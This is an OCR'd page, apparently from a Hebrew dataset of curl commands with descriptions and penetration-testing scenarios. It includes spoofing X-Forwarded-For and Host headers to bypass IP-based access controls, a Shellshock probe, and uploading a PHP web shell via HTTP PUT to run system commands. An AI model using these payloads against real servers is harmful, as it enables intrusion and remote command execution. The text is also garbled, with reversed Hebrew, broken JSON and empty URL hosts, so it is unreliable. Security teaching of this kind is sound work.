 ```
"scenario":"ב ושמתשה תורידח יקדוב ,2014 רבמבונב-curl תורתוכ םע Shellshock קודבל ידכ
```
םיתרש CGI טפירקסל וז תרתוכ תחילש ,לשמל .םיעיגפ CGI ומכ /cgi-bin/status – ריזחמ תרשה םא
הדוקפה לש טלפ id, ל ףושח אוהש ןמיס-Shellshock השלוחה תא לצנל ךישמהל ןתינו." }, {
```
"command":"curl -H \"X-Forwarded-For: 127.0.0.1\" -H \"Host:
```
```
<internal.site>\" http://<backend_ip>/secure",
```
```
"description":"תרתוכ ףויז X-Forwarded-For תבותכ יפל ןוניס ינונגנמ ףוקעל ידכ IP. הדוקפה
```
ל תורישי השקב תחלוש-IP תרתוכ םע ימינפ תרש לש Host תגצה ךות ,רתאה לש X-Forwarded-For =
127.0.0.1. התוא םוסחל אלו הנמיהמ תימוקמ תבותכמ העיגמ השקבהש בושחל יושע תרשה ךכ .",
```
"explanation":"-H \"X-Forwarded-For: 127.0.0.1\" ה תבותכש תרשל ןייצמ-IP תירוקמה
```
איה חוקלה לש localhost (וז תרתוכ לע ךמוס תרשהש הרקמב) ; -H \"Host: <internal.site>\"
שקובמה ןיימודה תא רידגמ (ל תורישי תכלוה השקבה יכ ץוחנ-IP); URL םע <backend_ip> תורישי הנופ ףקועה דעיה תרשל DNS/proxy.", "category":"עדימ תחטבא", 7

## Page 8

```
"scenario":"בש ףשח החטבא רקחמ-Yelp תחילש י"\ע םיימינפ םיפדל תשגל היה ןתינ X-
```
Forwarded-For: 127.0.0.1, ושמתשה םיפקות ,לעופב .השיג תמיסחל חוקלה תבותכ לע ךמס םושייה יכ
ב-curl ה תא רובעל ידכ וז הרוצב-WAF תנגה וא IP לולסמל תשגלו /secure תימוקמ השיגל קר דעוימש ." }, {
```
"command":"curl -v -X PUT -d '<?php system($_GET[\"cmd\"]); ?>' http:/// shell.php", "description":
```
```
"ץבוק הלעמ Web Shell תשקב תועצמאב תרשל PUT. תשקב תחלוש הדוקפה HTTP PUT ליכמה ףוג םע
```
דוק PHP ינודז (Web shell), ץבוק רוציל הנווכב shell.php רשפאמ תרשה םא .דעיה תרשב PUT
```
(ב לשמל-WebDAV היוגש הרוצת וא), תרשה לע הצרה ץבוק רוצית הדוקפה.",
```
```
"explanation":"-X PUT ל השקבה תטיש תא רידגמ-HTTP PUT (באשמ תאלעה); -d '<?php
```
… ?>' דוק רבעומ ןאכ .רצווייש ץבוקה ןכות תא ריבעמ PHP תכרעמ תודוקפ ץירמש רצק (system) רטמרפמ
cmd; -v טרופמ טלפ גיצמ (headers, תרש תבוגת) המסחנ וא החילצה האלעהה םא אדוול ידכ.", "category":"עדימ תחטבא",
```
"scenario":"תרש םא ,הרידח תוקידבב web תטיש רשפאמ PUT (וא תואלעה תייקית לשמל WebDAV
```
ב םישמתשמ םירדוח ,(ןגומ אל-curl תריציל Shell: ץבוק םילעמ PHP םע backdoor. לע ,המגודל
תרצוי הדוקפה ,העיגפ היצקילפא shell.php, ןפדפדה ךרד תודוקפ עצבל ףקותל רשפאמש (URL ומכ shell.php?cmd=whoami)." }, {
```
"command":"curl -X POST -F 'file=@/path/to/file.zip' -F 'user=admin' https:///upload",
```
```
"description":"ספוטב ץבוק תאלעה עצבמ HTTP (multipart/form-data). תחלוש הדוקפה
```
תשקב POST ףוריצל ץבוק :ספוט תודש םע (file=@…) ילאוטסקט הדשו (user=admin). Curl לפטמ
ספוטש ומכ ץבוקה תא רגשמו טרפיטלומ טמרופב הזיראב HTML השוע היה.",
```
"explanation":"-F 'file=@/path/to/file.zip' םשב ץבוק ףרצמ file.zip ספוט הדשב
```
ארקנה \"file\" (Curl תשקבב ותוא ףרצמו ץבוקה ןכות תא ארוק multipart); -F 'user=admin'
םשב ליגר טסקט הדש ףיסומ user ךרעה םע \"admin\"; -X POST תשקב ןייצמ POST (לש הרקמב -F, Curl ב שמתשי אליממ-POST multipart).", "category":"חותיפ",
```
"scenario":"חתפמ DevOps קשממ תועצמאב תרשל היצרוגיפנוק ןויכרא הלעמ HTTP. קשממ םוקמב
```